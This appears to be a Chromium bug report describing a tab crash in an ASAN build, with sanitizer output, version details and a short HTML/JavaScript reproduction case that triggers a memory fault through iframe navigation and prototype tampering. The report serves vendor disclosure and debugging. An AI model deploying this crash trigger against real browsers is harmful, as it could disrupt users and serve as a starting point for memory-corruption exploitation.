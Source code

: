<b>VULNERABILITY DETAILS</b>
The testcase below crashes the chrome ASAN build. The asan output is unfortunately not very helpful:

ASAN:SIGSEGV
=================================================================
==7899==ERROR: AddressSanitizer: SEGV on unknown address 0x00004cec603d (pc 0x220320f181a8 sp 0x7fff4e1bfed8 bp 0x7fff4e1bff08 T0)
AddressSanitizer can not provide additional info.
    #0 0x220320f181a7 (+0x121a7)
==7899==ABORTING

Could be an issue with the JIT compiler (just a guess).

<b>VERSION</b>
Chrome Version: asan-symbolized-linux-release-211418
Operating System: Linux 64-bit

<b>REPRODUCTION CASE</b>
Very simple single HTML file (attached as well):

<html>
<script>
function start() {
o0=document.createElement('iframe');;
document.getElementById('store_div').appendChild(o0);
o247=document.documentElement;
o250=o0.contentWindow.document;
o250.location.href='javascript:window.top.cb_scripturl_100_1();undefined;';
}
function cb_scripturl_100_1() {
o447=o250.createElement('style');;
o506=o247.firstChild.parentElement.firstChild.childNodes.__proto__.__proto__;
o506.__proto__=o447.style;
o514=document.createElement('blockquote');
}
</script>
<body onload="start()"><div id="store_div"></div></body>
</html>


<b>FOR CRASHES, PLEASE INCLUDE THE FOLLOWING ADDITIONAL INFORMATION</b>
Type of crash: tab
Crash State: See ASAN output above